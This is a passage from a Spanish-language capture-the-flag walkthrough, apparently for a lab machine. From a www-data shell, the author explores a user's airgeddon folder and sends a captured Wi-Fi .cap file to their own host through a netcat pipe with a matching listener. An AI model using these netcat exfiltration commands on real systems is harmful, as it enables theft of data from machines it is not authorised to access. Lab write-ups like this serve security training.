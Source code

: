 ```bash
ww-data@f00ba96171c5:/var/www/html$ ifconfig
eth0      Link encap:Ethernet  HWaddr 02:42:ac:14:00:02  
          inet addr:172.20.0.2  Bcast:172.20.255.255  Mask:255.255.0.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:645 errors:0 dropped:0 overruns:0 frame:0
          TX packets:501 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:45176 (44.1 KiB)  TX bytes:50772 (49.5 KiB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1 
          RX bytes:0 (0.0 B)  TX bytes:0 (0.0 B)
```

Vamos a dirigirnos a la ruta `/home/` y encontramos una carpeta del usuario `zeus`; nos metemos en dicha carpeta y vemos otra con nombre `airgeddon`, que investigando un poco, notamos que se trata de un programa para realizar auditorías Wi-Fi en Linux. Por lo tanto ingresamos en dicha carpeta y posterior a `captured`:

```bash
www-data@f00ba96171c5:/home/zeus/airgeddon/captured$ pwd
/home/zeus/airgeddon/captured
www-data@f00ba96171c5:/home/zeus/airgeddon/captured$ ls -l
total 296
-rw-r--r-- 1 zeus zeus 297917 Apr  8  2018 captured.cap
-rw-r--r-- 1 zeus zeus     57 Apr  8  2018 papyrus.txt
www-data@f00ba96171c5:/home/zeus/airgeddon/captured$ cat papyrus.txt 
Captured while flying. I'll banish him to Olympia - Zeus
www-data@f00ba96171c5:/home/zeus/airgeddon/captured$
```

Aquí vemos dos archivos, uno `papyrus.txt` que contiene la leyenda `Captured while flying. I'll banish him to Olympia - Zeus` y otro `captured.cap`; por lo que nos indica que debemos de hacer algo que el archivo `.cap`, así que nos lo pasamos a nuestra máquina para analizarlo:

```bash
www-data@f00ba96171c5:/home/zeus/airgeddon/captured$ nc 10.10.14.16 4646 < captured.cap

^C
www-data@f00ba96171c5:/home/zeus/airgeddon/captured$
```

```bash
❯ nc -nlvp 4646 > captured.cap
listening on [any] 4646 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.83] 40066
```

Esperamos unos segundos y cancelamos en la máquina víctima. Ahora vamos a validar que la información haya sido enviada correctamente:

